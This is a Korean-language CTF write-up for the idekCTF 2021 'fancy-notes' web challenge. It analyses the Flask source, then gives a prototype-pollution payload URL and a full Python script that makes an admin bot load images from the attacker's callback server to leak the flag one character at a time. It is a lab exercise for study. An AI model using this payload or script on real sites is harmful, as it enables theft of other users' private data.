

# fancy-note

: 유영택
구분: 공통 문제
난이도: Medium
분야: Web
상태: 작성 완료
생성일: 2026년 8월 31일 오후 5:46
수정일: 2026년 8월 31일 오후 5:48

# 0. 문제 정보

| 항목 | 내용 |
| --- | --- |
| 문제명 | fancy-notes |
| 원본 대회 | idekCTF 2021 |
| 분야 | Web |
| 난이도 | 중급 · 약 3/5 |
| 접속 주소 | `http://localhost:1353` |
| 플래그 형식 | `FLAG{...}` |

# 1. 문제 요약

- 회원가입과 note app 기능을 하는 웹앱
- report 엔드포인트가 bot으로 이어저 admin 계정으로 url에 접근 가능
- 하지만 xss 필터링이 걸려 있지만 style부분으로 우회하는 문제← 아님
- 오히려 img 객체 오염 문제

---

# 2. 문제 분석

전체 코드는  app.py, js, bot이 있음

- 전체코드
    
    ```python
    from flask import Flask, redirect, request, session, send_from_directory, render_template
    import os
    import sqlite3
    import subprocess
    
    app = Flask(__name__, static_url_path='/static', static_folder='static', template_folder='templates')
    app.secret_key = os.getenv('SECRET', 'secret')
    ADMIN_PASS = os.getenv('ADMIN_PASS', 'password')
    flag = open('flag.txt', 'r').read()
    
    def init_db():
        con = sqlite3.connect('/tmp/database.db')
        cur = con.cursor()
        cur.execute('CREATE TABLE IF NOT EXISTS users (id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT NOT NULL UNIQUE, password TEXT NOT NULL)')
        cur.execute('INSERT INTO USERS (username, password) VALUES ("admin", ?)', [ADMIN_PASS])
        cur.execute('CREATE TABLE IF NOT EXISTS notes (title TEXT NOT NULL, content TEXT NOT NULL, owner TEXT NOT NULL)')
        cur.execute('INSERT INTO notes (title, content, owner) VALUES ("flag", ?, 1)', [flag])
        con.commit()
        con.close()
    
    def try_login(username, password):
        con = sqlite3.connect('/tmp/database.db')
        cur = con.cursor()
        cur.execute('SELECT * FROM users WHERE username = ? AND password = ?', [username, password])
        row = cur.fetchone()
        if row:
            return {'id': row[0], 'username': row[1]}
    
    def try_register(username, password):
        con = sqlite3.connect('/tmp/database.db')
        cur = con.cursor()
        try:
            cur.execute('INSERT INTO users (username, password) VALUES (?, ?)', [username, password])
        except sqlite3.IntegrityError:
            return None
        con.commit()
        con.close()
        return True
    
    def find_note(query, user):
        con = sqlite3.connect('/tmp/database.db')
        cur = con.cursor()
        cur.execute('SELECT title, content FROM notes WHERE owner = ? AND (INSTR(content, ?) OR INSTR(title,?))', [user, query, query])
        rows = cur.fetchone()
        return rows
    
    def get_notes(user):
        con = sqlite3.connect('/tmp/database.db')
        cur = con.cursor()
        cur.execute('SELECT title, content FROM notes WHERE owner = ?', [user])
        rows = cur.fetchall()
        return rows
    
    def create_note(title, content, user):
        con = sqlite3.connect('/tmp/database.db')
        cur = con.cursor()
        cur.execute('SELECT title FROM notes where title=? AND owner=?', [title, user])
        row = cur.fetchone()
        if row:
            return False
        cur.execute('INSERT INTO notes (title, content, owner) VALUES (?, ?, ?)', [title, content, user])
        con.commit()
        con.close()
        return True
    
    @app.before_first_request
    def setup():
        try:
            os.remove('/tmp/database.db')
        except:
            pass
        init_db()
    
    @app.after_request
    def add_headers(response):
        response.headers['Cache-Control'] = 'no-store'
        return response
    
    @app.route('/')
    def index():
        if not session:
            return redirect('/login')
        notes = get_notes(session['id'])
        return render_template('index.html', notes=notes, message='select a note to fancify!')
    
    @app.route('/login', methods = ['GET', 'POST'])
    def login():
        if request.method == 'GET':
            return render_template('login.html')
        if request.method == 'POST':
            password = request.form['password']
            username = request.form['username']
            user = try_login(username, password)
            if user:
                session['id'] = user['id']
                session['username'] = user['username']
                return redirect('/')
            else:
                return render_template('login.html', message='login failed!')
    
    @app.route('/register', methods=['GET', 'POST'])
    def register():
        if request.method == 'GET':
            return render_template('register.html')
        if request.method == 'POST':
            username = request.form['username']
            password = request.form['password']
            if try_register(username, password):
                return redirect('/login')
            return render_template('register.html', message='registration failed!')
    
    @app.route('/create', methods=['GET', 'POST'])
    def create():
        if not session:
            return redirect('/login')
        if session['username'] == 'admin':
            return 'nah'
        if request.method == 'GET':
            return render_template('create.html')
        if request.method == 'POST':
            title = request.form['title']
            content = request.form['content']
            if len(title) >= 36 or len(content) >= 256:
                return 'pls no'
            if create_note(title, content, session['id']):
                return render_template('create.html', message='note successfully uploaded!')
            return render_template('create.html', message='you already have a note with that title!')
    
    @app.route('/fancy')
    def fancify():
        if not session:
            return redirect('/login')
        if 'q' in request.args:
            def filter(obj):
                return any([len(v) > 1 and k != 'q' for k, v in request.args.items()])
            if not filter(request.args):
                results = find_note(request.args['q'], session['id'])
                if results:
                    message = 'here is your 𝒻𝒶𝓃𝒸𝓎 note!'
                else:
                    message = 'no notes found!'
                return render_template('fancy.html', note=results, message=message)
            return render_template('fancy.html', message='bad format! Your style params should not be so long!')
        return render_template('fancy.html')
    
    @app.route('/report', methods=['GET', 'POST'])
    def report():
        if not session:
            return redirect('/')
        if request.method == 'GET':
            return render_template('report.html')
        url = request.form['url']
        subprocess.Popen(['node', 'bot.js', url], shell=False)
        return render_template('report.html', message='admin visited your url!')
        
    
    app.run('0.0.0.0', 1337)
    
    ```
    

bot존재 ←  xss일 확률 높음 

```python
flask- /<-get note 
		 - /login  <-로그인
		 - /register <- 회원가입
		 - /create <- 메모 만들기(admin 불가능)
		 - /fancy <- render template부분, filter도 있음
		 - /report <- admin bot이 url로 이동
```

---

# 3. 풀이과정

 앞에는 sql들이 prepared statementt랑 보안조치가 되어 있음, fancy가 Sink임

```python
@app.route('/fancy')
def fancify():
    if not session:
        return redirect('/login')
    if 'q' in request.args: 
        def filter(obj):
            return any([len(v) > 1 and k != 'q' for k, v in request.args.items()]) 
            # key value 근데 키가 큐가 아니면 value가 1보다 작아야함 근데 
            #items는 앞에 것만 반환 중복값을 사용하면 앞에만 사용 가능하고 파싱이 다른 부분 있을 수 있음
        if not filter(request.args):
            results = find_note(request.args['q'], session['id'])
            if results:
                message = 'here is your 𝒻𝒶𝓃𝒸𝓎 note!'
            else:
                message = 'no notes found!'
            return render_template('fancy.html', note=results, message=message)
        return render_template('fancy.html', message='bad format! Your style params should not be so long!')<-여기서 xss?
    return render_template('fancy.html')
```

1번 가설 fancy.html에서 xss를 이용해 bot으로 접근하자

```python
!fancy.html 요약

		html 
		
		<div class="animation" id="note">
		<p id="title">{{note[0]}}</p>
		<p id="content">{{note[1]}}</p>
		<style id='style'></style>
		
		
function fancify(note) {
	color = (args.style || Math.floor(Math.random() * 6)).toString();
	image = this.image || '/static/images/success.png'; <- this.image에 삽입이 가능한가?
	styleElement = note.children[2]; <- 1 이거 우회실패
	styleElement.innerHTML = style; // i have no idea why i did this in such a scuffed way but I'm too lazy to change it. no this is not vulnerable
	note.className = `animation${color}`;
	img = new Image();
	img.src = image
	note.append(img);
}

args = Arg.parse(location.search);
noteElement = document.getElementById('note');

if(noteElement){
	fancify(noteElement);
}
```

### 1번 가설- 안됨

styleElement = note.children[2]; 

styleElement.innerHTML = style;

noteElement = document.getElementById('note'); 시에 style객체를 덮어 씌울 수 있지 않을까? note객체를 </p><style>asd</style>로 덮어서 js가 파싱할때 style앞에 객체가 읽힐 수 도 있음 ← 실패



### 2번 가설

image = this.image || '/static/images/success.png'; 파싱하는 부분에 현재는 '/static/images/success.png'이게 들어가지만 this.image에 삽입이 가능한가?


삽입이 가능함 (proto는 부모 객체접근자고 image에 test를 넣는거임)

하지만 xss는 불가능 onerror를 설정 불가← xss아님

find note에서 content로 찾으니까 이걸로 한글자씩 매치?← ***INSTR***는 Oracle 데이터베이스에서 문자열 내에서 특정 부분 문자열(substring)의 위치를 찾는 함수이다.([https://071217.tistory.com/135](https://071217.tistory.com/135))

 results = find_note(request.args['q'], session['id'])

```python
def find_note(query, user):
    con = sqlite3.connect('/tmp/database.db')
    cur = con.cursor()
    cur.execute('SELECT title, content FROM notes WHERE owner = ? AND (INSTR(content, ?) OR INSTR(title,?))', [user, query, query])
    rows = cur.fetchone()
    return rows
```

정리하자면 

내용물로 찾아서 맞으면 img 요청 보낼 것이다.→ 그걸로 한글자씩 찾아보자  

```python
bot q에 추측한 flag prefix 넣음
        ↓
find_note() 성공
        ↓
#note 생성
        ↓
fancify() 실행
        ↓
오버라이딩된 image 사용
        ↓
내 서버로 image 요청
        ↓
       확인
```

flag가 FLAG{T34M_ROOKIE_로 시작하므로 요청해보면 


payload

[http://localhost:1337/fancy](http://127.0.0.1:1353/fancy)?q=FLAG{T34M&__proto__[image]=x&__proto__[image]=[http://host.docker.internal:8000/success](http://host.docker.internal:8000/success)

python3 -m http.server 8000← 요청이 성공하면 서버에 로그 찍힘


하나씩 유추하면됨

---

# POC

- 
    
    ```python
    AI
    #!/usr/bin/env python3
    import random
    import socket
    import string
    import threading
    import time
    from urllib.parse import urlencode
    
    import requests
    
    BASE = "http://127.0.0.1:1353"
    BOT_BASE = "http://localhost:1337"
    CALLBACK_BASE = "http://host.docker.internal:8000"
    
    PREFIX = "FLAG{T34M_ROOKIE_"
    CHARSET = string.ascii_uppercase + string.digits + "_}"
    TIMEOUT = 5
    
    def make_payload(q, marker):
        callback = f"{CALLBACK_BASE}/{marker}"
    
        params = [
            ("q", q),
            ("__proto__[image]", "x"),       
            ("__proto__[image]", callback),  
        ]
    
        return BOT_BASE + "/fancy?" + urlencode(params)
    
    def wait_hit(marker, result):
        s = socket.socket()
        s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        s.bind(("0.0.0.0", 8000))
        s.listen(5)
        s.settimeout(TIMEOUT)
    
        try:
            while True:
                conn, _ = s.accept()
                data = conn.recv(4096)
    
                conn.sendall(
                    b"HTTP/1.1 204 No Content\r\n"
                    b"Connection: close\r\n\r\n"
                )
                conn.close()
    
                if marker.encode() in data:
                    result.append(True)
                    return
        except socket.timeout:
            pass
        finally:
            s.close()
    
    def probe(sess, guess):
        marker = "hit_" + "".join(
            random.choice(string.ascii_lowercase) for _ in range(8)
        )
    
        result = []
        t = threading.Thread(target=wait_hit, args=(marker, result))
        t.start()
    
        time.sleep(0.05)  # listener가 먼저 열리게 함
    
        payload = make_payload(guess, marker)
    
        try:
            sess.post(BASE + "/report", data={"url": payload}, timeout=10)
        except requests.RequestException:
            pass
    
        t.join()
    
        return bool(result)
    
    def main():
        sess = requests.Session()
    
        username = "solve_" + "".join(
            random.choice(string.ascii_lowercase) for _ in range(8)
        )
        password = "password123"
    
        sess.post(
            BASE + "/register",
            data={"username": username, "password": password},
        )
    
        sess.post(
            BASE + "/login",
            data={"username": username, "password": password},
        )
    
        print("[*] preflight")
    
        if not probe(sess, "flag"):
            print("[-] callback 안 옴")
            print("    CALLBACK_BASE / 포트 / Docker 네트워크 확인")
            return
    
        print("[+] callback OK")
    
        flag = PREFIX
    
        while not flag.endswith("}"):
            for c in CHARSET:
                guess = flag + c
                print("\r[*] " + guess, end="", flush=True)
    
                if probe(sess, guess):
                    flag = guess
                    print("\n[+] " + flag)
                    break
            else:
                print("\n[-] 다음 글자를 못 찾음")
                return
    
        print("\nFLAG =", flag)
    
    if __name__ == "__main__":
        main()
    ```
    

---

# 5. 기록

- bot 때문에 xss로 생각했지만 객체 오염 관련 문제였음
- xss에 주석이 달려 있고 inner.html이여서 그쪽으로 생각하다가 삽질을 너무했다.
- js가 객체를 찾는 과정에서 —proto—를 통해서 상위 객체를 가져오는 과정에서 prototype pollution발생
- oneerror를 통한 xss를 설정할 수 없어서 find_note에서 content조회를 가지고 키 값을 유추할 수 있다.